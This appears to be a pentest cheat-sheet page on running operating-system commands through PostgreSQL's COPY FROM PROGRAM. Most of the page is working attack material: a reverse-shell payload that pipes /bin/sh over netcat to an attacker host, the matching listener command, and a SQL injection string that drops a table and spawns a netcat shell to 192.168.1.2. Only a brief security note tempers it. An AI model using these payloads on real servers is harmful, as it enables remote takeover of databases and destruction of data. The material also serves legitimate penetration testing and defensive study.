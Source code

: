 ```yaml
---
cover: >-
  https://images.unsplash.com/photo-1517486430290-35657bdcef51?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHw5fHxlbGVwaGFudHMlMjB8ZW58MHx8fHwxNzE1NDU1NzIyfDA&ixlib=rb-4.0.3&q=85
coverY: 0
---
```


# PostgreSQL

To execute system commands on Linux or Windows using PostgreSQL, you can leverage the `PROGRAM` parameter in conjunction with the `COPY` command. Here's a step-by-step explanation of how to set up and use this method:

#### Command Execution Overview

The process starts with the creation of a table designed to store the output of the commands you execute. This can be a temporary or permanent table based on your requirements. Here, we'll create a permanent table called `shell`.

**Step 1: Create a Table to Capture Output**

First, create a table where the output of the executed commands will be stored. This table will have a single column to hold text data.

```sql
CREATE TABLE shell(output text);
```

**Step 2: Using the PROGRAM Parameter to Execute Commands**

With the table ready, you can now use the `PROGRAM` parameter within the `COPY` command to execute system-level commands. This example demonstrates how to set up a reverse shell, which allows you to execute commands remotely on the server where the PostgreSQL database is running.

```sql
COPY shell FROM PROGRAM 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 1234 > /tmp/f';
```

Here's a breakdown of the command sequence:

* `rm /tmp/f;`: Removes any existing file named `/tmp/f`.
* `mkfifo /tmp/f;`: Creates a named pipe `/tmp/f`. Named pipes allow for temporary file-like communication between processes.
* `cat /tmp/f | /bin/sh -i 2>&1`: This part sets up a reverse shell. It reads from the named pipe, executes commands using the shell (`/bin/sh -i`), and redirects both stdout and stderr to the pipe.
* `nc 10.0.0.1 1234 > /tmp/f`: This uses `netcat` (nc) to connect back to the attacker's machine listening on IP `10.0.0.1` and port `1234`. Output from the shell (connected via `nc`) is redirected back into `/tmp/f`, thus maintaining a continuous shell session.

**Step 3: Set Up a Listener on the Attacking Machine**

Before running the `COPY` command, ensure that you've set up a listener on the attacking machine to accept the incoming connection from the reverse shell:

```bash
nc -lvp 1234
```

This command tells `netcat` to listen on port `1234`, verbosely displaying output and keeping the port open for multiple connections if needed.

#### Security Considerations

Executing system commands via SQL in a database is a significant security risk and typically indicates that your system is already compromised or misconfigured to allow such actions. Always ensure that database permissions are strictly managed and that using features like `COPY FROM PROGRAM` is disabled unless absolutely necessary and safeguarded by robust security measures.



Example:

{% code overflow="wrap" %}
```sql
id=';DROP TABLE IF EXISTS commandexec; CREATE TABLE commandexec(data text);COPY commandexec FROM PROGRAM '/usr/bin/nc.traditional -e /bin/sh 192.168.1.2 4444';--
```
{% endcode %}

#### Resource(s):

* [https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767](https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767)
